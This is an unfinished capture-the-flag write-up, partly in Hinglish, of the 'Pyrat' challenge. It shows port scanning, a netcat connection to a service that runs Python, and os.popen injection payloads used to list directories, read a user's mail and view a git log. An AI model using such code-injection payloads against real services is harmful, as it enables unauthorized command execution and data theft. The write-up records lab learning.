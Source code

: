 # ctf-journey

# PYRAT CTF CHALLENGE

![image](https://github.com/idevyogi/ctf-journey/blob/1d2e7439ec3c447fea1c18a03770848f0baff211/Screenshot%202025-07-16%20164113.png)
![image](https://raw.githubusercontent.com/idevyogi/ctf-journey/5177707821f5c48910197600dc368d8e2d22ad02/PYRAT%20CTF%20CHALLENGE.png)

# Step 1 rustscan 

PORT        STATE       SERVICE       REASON

22/tcp      open         ssh         syn-ack ttl 60

8000/tcp    open      http-alt       syn-ack ttl 60

i cant go on ssh because i have zero information about credentials
so i browse port 8000 in fire fox browser

# Step 2 http://10.10.121.147:8000/
Try a more basic connection! 


TCP ya UDP connection banaana, jisme data end-to-end stream ke form me exchange hota hai — bina kisi extra formatting ke.

# Step 3  Usage of NETCAT for basic connection
nc <target_ip> <port>

(idevyogi㉿kali)-[~]
└─$ nc 10.10.121.147 8000
after this i got my cursor in next line and just blank theen i give hello nomral in it then it respond to me in this way
REASON OF HELLO -
✅ Agar reply milta hai, to samajh aata hai ki port alive aur responsive hai
hello
name 'hello' is not defined


# Step 4 as i know defined error is given in programming python so i try their code
print(1+1)
2
it works so now i will give input of python to retrieve information

# Step 5 i use python code for listed item 
print(__import__('os').popen('ls').read())

this not list file 

print(__import__('os').popen('ls /').read())
but this kist me item because from this ls /it give root directories files.
--  root directory listed in this way
bin
boot             # command   kya karti haii      KAB FAIL HO SKTI HAI
dev                  ls        CWD LIST KRNA      Agar inaccessible/empty hO
etc                  ls/       ROOT LIST KARNA     RARELY(ALWAYS ACCESIBLE)
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
swap.img
sys
tmp
usr
var
# Step 6

In this now i will explore various directories in point of veiw of flag

so now i explore var

print(__import__('os').popen('cat /var/mail/think').read())

From root@pyrat  Thu Jun 15 09:08:55 2023

Return-Path: <root@pyrat>

X-Original-To: think@pyrat

Delivered-To: think@pyrat

Received: by pyrat.localdomain (Postfix, from userid 0)

        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
        
Subject: Hello

To: <think@pyrat>

X-Mailer: mail (GNU Mailutils 3.7)

Message-Id: <20230615090855.2E4312141@pyrat.localdomain>

Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)

From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen

-- where i got this information

# Step 6 

Now i go in the folder of the .git

print(__import__('os').popen('git --git-dir=/opt/dev/.git log').read())

commit 0a3c36d66369fd4b07ddca72e5379461a63470bf

Author: Jose Mario <josemlwdf@github.com>

Date:   Wed Jun 21 09:32:14 2023 +0000


    Added shell endpoint
    

--- where i got this type of information in this


Note - Now at this point i know some basic details which is in these two 

# Step 7 - 






